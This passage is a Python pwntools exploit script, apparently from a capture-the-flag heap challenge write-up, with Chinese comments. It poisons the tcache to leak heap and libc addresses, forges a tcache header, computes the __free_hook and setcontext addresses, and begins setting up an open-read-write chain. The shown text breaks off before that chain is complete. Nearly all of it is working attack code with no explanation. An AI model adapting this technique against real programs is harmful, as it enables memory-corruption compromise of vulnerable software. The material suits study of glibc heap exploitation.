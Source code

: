    ```python
       add(0x18)
       edit(b"a")
   
   # 泄漏堆地址
   add(0x78)
   free()
   edit(p64(0)*2)
   free()
   show()
   p.recvuntil(b"Content: ")
   heap_addr = (u64(p.recv(6)[-6:].ljust(8,b'\x00'))&0xfffffffff000)-0x1000
   success("heap_addr==>"+hex(heap_addr))
   edit(p64(heap_addr+0x10))   #修改next指针，指向tcache
   
   # 申请到tcache ，伪造tcache头，泄漏libc基地址
   change_size_addr = heap_addr+0x250
   free_chunk_addr  = heap_addr+0x260
   add(0x78)
   add(0x78)   #tcache chunk
   payload = b"\x00"*5 + b"\x02" + b"\x01" + b"\x07" + p64(0)*12 + p64(change_size_addr) + p64(free_chunk_addr)
   edit(payload)
   
   add(0x68)   #修改size大小
   edit(p64(0)+p64(0x91))
   
   add(0x28)
   edit(p64(0)+p64(0x21))  #保证寻址到topchunk
   add(0x78)   #释放0x91chunk
   free()
   show()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
    
   #计算__free_hook和system地址
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   setcontext_addr = libc_base + libc.sym["setcontext"] + 53
   success("free_hook_addr==>"+hex(free_hook_addr))
   success("setcontext_addr==>"+hex(setcontext_addr))
   
   
   # # 堆上的ORW，利用setcontext来构造ORW 
   #继续申请tcache作为chunk
   add(0x68)
   free()
   edit(p64(0)*2)
   free()
   edit(p64(heap_addr+0x80))   #后续申请到tcache
   add(0x68)
   add(0x68)   
   edit(p64(0))
   
   add(0x78)
   free()
   edit(p64(0)*2)
   free()
   edit(p64(heap_addr+0x10))   #后续申请到tcache
   add(0x78)
   add(0x78) 
   ```